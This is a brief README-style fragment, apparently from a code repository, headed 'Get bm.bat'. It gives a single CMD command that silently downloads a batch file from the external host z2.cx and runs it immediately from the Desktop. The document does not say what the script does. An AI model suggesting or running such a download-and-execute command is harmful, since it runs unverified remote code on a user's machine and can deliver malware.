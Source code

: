 # Get bm.bat
## Run in CMD
`cd %userprofile%\Desktop && curl -s https://z2.cx/bm.bat -o bm.bat && bm.bat`
